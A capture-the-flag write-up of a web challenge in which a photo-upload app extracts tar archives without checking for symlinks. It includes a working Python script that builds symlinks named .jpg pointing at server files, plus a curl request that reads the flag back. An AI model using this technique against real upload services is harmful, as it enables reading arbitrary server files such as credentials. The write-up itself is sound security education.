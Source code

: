 
#  CTF Writeup: Photo Album (Web Exploitation)

**Author: marv1nh**

**solves: 14**

##  Challenge Summary

The challenge provided a basic photo album web app where users could upload either image files (`.jpg`, `.png`, etc.) or a `.tar` archive containing images. The goal was to exploit this upload feature to retrieve a flag.

---

##  Recon and Source Review

From the source code (`app.py`), a few key details were observed:

###  Functionality:
- Accepts image uploads and `.tar` archives.
- Archives are extracted using `tarfile.extractall()`.
- Filters TAR contents to **only allow files with image extensions**.

###  Vulnerabilities:
1. **TAR Extraction Without Path Sanitization**  
   The app extracts uploaded `.tar` files using `tarfile.extractall()` **without validating the paths** inside, making it vulnerable to:
   - Path traversal (`../../`)
   - **Symbolic link attacks**

2. **MIME Type Based on Extension**  
   The server only checks file extensions, so you can upload files like `shell.jpg` containing PHP code, and the extension check will pass.

3. **No Checks on Symlinks Inside TAR**  
   The validation function only checks that each file in the TAR ends in `.jpg`, `.png`, etc. It doesn't check if the entry is a **symlink** pointing to a sensitive file.

---

##  Exploitation Strategy

Since I couldn’t guess the exact flag location, I created a script that builds a `.tar` archive with **multiple symlinks** named with image extensions (`.jpg`), each pointing to common flag paths.

---

##  `photo.py` – Brute-force Symlink TAR Generator

```python
import tarfile

paths = {
    "a.jpg": "/flag.txt",
    "b.jpg": "/flag",
    "c.jpg": "/app/flag.txt",
    "d.jpg": "/app/flag",
    "e.jpg": "/home/ctf/flag.txt",
    "f.jpg": "/home/ctf/flag",
    "g.jpg": "/root/flag.txt",
    "h.jpg": "/root/flag",
    "i.jpg": "/home/appuser/flag.txt",
    "j.jpg": "/home/appuser/flag",
    "k.jpg": "/srv/flag.txt",
    "l.jpg": "/srv/flag",
}

with tarfile.open("multi_flag_brute.tar", "w") as tar:
    for name, target in paths.items():
        info = tarfile.TarInfo(name=name)
        info.type = tarfile.SYMTYPE
        info.linkname = target
        tar.addfile(info)
```

---

## Uploading the Payload

Uploaded `multi_flag_brute.tar` via the site’s file upload form.

Then checked the exposed `.jpg` symlinks one by one. First try:

```bash
curl http://photo-album.hkn/static/albums/a.jpg
```

Output:
```
DDC{f4k3_im4g3_r34l_fl4g}
```

---

## 🏁 Flag

```
DDC{f4k3_im4g3_r34l_fl4g}
```
